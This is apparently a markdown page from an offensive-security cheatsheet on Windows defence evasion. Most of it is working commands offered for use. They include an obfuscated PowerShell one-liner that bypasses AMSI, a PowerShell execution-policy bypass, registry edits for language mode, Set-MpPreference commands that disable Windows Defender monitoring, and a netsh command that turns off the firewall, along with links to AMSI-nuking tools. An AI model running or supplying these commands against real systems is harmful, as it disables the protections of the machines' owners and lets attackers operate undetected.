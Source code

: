```yaml
---
layout: post
title: evasion / win
category: 03-evasion
parent: cheatsheets
modified_date: 2023-03-16
permalink: evasion/win
---
```


**Mitre Att&ck Entreprise**: [TA0005 - Defense Evasion](https://attack.mitre.org/tactics/TA0005/)

**Menu**
<!-- vscode-markdown-toc -->
* [amsi](#amsi)
* [applocker](#applocker)
* [edr](#edr)
* [powershell](#powershell)
* [windows-defender](#windows-defender)
* [windows-firewall](#windows-firewall)
* [S3cur3Th1sSh1t](#S3cur3Th1sSh1t)

<!-- vscode-markdown-toc-config
	numbering=false
	autoSave=true
	/vscode-markdown-toc-config -->
<!-- /vscode-markdown-toc -->

**Tools**

<script src="https://code.jquery.com/jquery-1.9.1.min.js"></script>
<script>$(window).load(function() {var repos = ["https://api.github.com/repos/TheWover/DInvoke","https://api.github.com/repos/anonymous300502/Nuke-AMSI"]; for (rep in repos) {$.ajax({type: "GET", url: repos[rep], dataType: "json", success: function(result) {$("#repo_list").append("<tr><td><a href='" + result.html_url + "' target='_blank'>" + result.name + "</a></td><td>" + result.pushed_at + "</td><td>" + result.stargazers_count + "</td><td>" + result.subscribers_count + "</td><td>" + result.language + "</td></tr>"); console.log(result);}});}console.log(result);});</script>

<link href="/sortable.css" rel="stylesheet" />
<script src="/sortable.js"></script>
<div id="repos">
    <table id="repo_list" class="sortable">
      <tr><th>_repo</th><th>_last_push</th><th>_stars</th><th>_watch</th><th>_language</th></tr>
    </table>
</div>

## <a name='amsi'></a>amsi 
```powershell
# https://0x00-0x00.github.io/research/2018/10/28/How-to-bypass-AMSI-and-Execute-ANY-malicious-powershell-code.html
sET-ItEM ( 'V'+'aR' +  'IA' + 'blE:1q2'  + 'uZx'  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    GeT-VariaBle  ( "1Q2U"  +"zX"  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System'  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f'amsi','d','InitFaile'  ),(  "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
 ```

 -[nuke-amsi](https://github.com/anonymous300502/Nuke-AMSI)

## <a name='applocker'></a>applocker
```powershell
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
```
## <a name='edr'></a>edr

* [dinvoke](https://hack.technoherder.com/dinvoke/)
* [palo cortex xdr](/edr/defeva#win-xdr)
* [windows defender](/edr/defeva#win-defender)

## <a name='powershell'></a>powershell
```powershell
# powershell execution protection bypass
powershell -ep bypass

# powershell fullLanguage / Constrained language mode
# https://seyptoo.github.io/clm-applocker/
$Env:__PSLockdownPolicy
reg query "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\Environment" /v __PSLockdownPolicy
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\Environment" /v __PSLockdownPolicy /t REG_SZ /d ConstrainedLanguage /f
/v fDenyTSConnections /t REG_DWORD /d 1 /f
$ExecutionContext.SessionState.LanguageMode
$ExecutionContext.SessionState.LanguageMode ConstrainedLanguage
```

## <a name='windows-defender'></a>windows-defender
```powershell
# Windows Defender disabling features
Set-MpPreference -DisableRealtimeMonitoring $true -Verbose
Set-MpPreference -DisableIOAVProtection $true
```

## <a name='windows-firewall'></a>windows-firewall
```powershell
# windows firewall showing / disabling config 
netsh advfirewall set allprofiles state off
netsh advfirewall show allprofiles
```

## <a name='S3cur3Th1sSh1t'></a>S3cur3Th1sSh1t
<iframe width="727" height="409" src="https://www.youtube.com/embed/_sPM9Er_194" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>
